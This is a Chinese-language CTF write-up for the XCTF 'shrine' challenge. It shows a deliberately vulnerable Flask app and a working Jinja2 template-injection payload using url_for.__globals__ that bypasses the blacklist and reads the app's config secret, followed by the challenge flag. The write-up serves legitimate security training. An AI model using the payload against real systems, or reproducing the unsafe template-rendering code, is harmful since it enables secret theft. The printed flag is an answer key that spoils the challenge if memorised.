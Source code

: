 # shrine

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=100497b9-0ff5-4427-8159-060062da0c4c_2)

场景打开只看见了一段flask源代码，而flask的考点也很明确了——模版注入。先把这串源代码美化一下，使用这个[网站](https://codebeautify.org/python-formatter-beautifier)。

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

- ### os.environ
- > 一个表示字符串环境的 映射 对象。（比如字典） 例如，environ\['HOME'] 是你的主目录（在某些平台上）的路径名

pop()大概就是返回当前路径下FLAG文件的值。app.config\['FLAG']的值就等于FLAG。app.config是当前的项目配置。

所以我们要想办法看到app.config\[FLAG]里面的值。往下看可以发现有个shrine目录。@app.route()是一个装饰器，这里先将其简单理解成设置路径。按照这里的设置，应该还有个/shrine/xxx路径才对。

- http://61.147.171.105:60143/shrine/ds

发现shrine后面跟着的ds被回显了，试一下有没有模版注入。

- http://61.147.171.105:60143/shrine/{{2*2}}

回显显示4，敲定模版注入。现在就是利用了。但是从 return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 可以发现不能直接传入config。

- ### Flask
- > {{}}表示变量，{{% %}}是jinja引擎特有语法（flask使用的是jinja引擎）。上面的代码意为“遍历blacklist中的词语，如果输入等于黑名单中的词语就将其设定为None。

通过replace还发现圆括号也被过滤了。但是blacklist并没有过滤完全，只是规定了输入不能等于config，没说不能包含config。我从[这里](https://10-0-0-55.github.io/web/flask/ssti/)找到了一个完全可行的payload。

- http://61.147.171.105:60143/shrine/{{url_for.\__globals__\['current_app'].config\["FLAG"]}}
  
直接打印出config中FLAG的内容。

- ### Flag
- > flag{shrine_is_good_ssti}
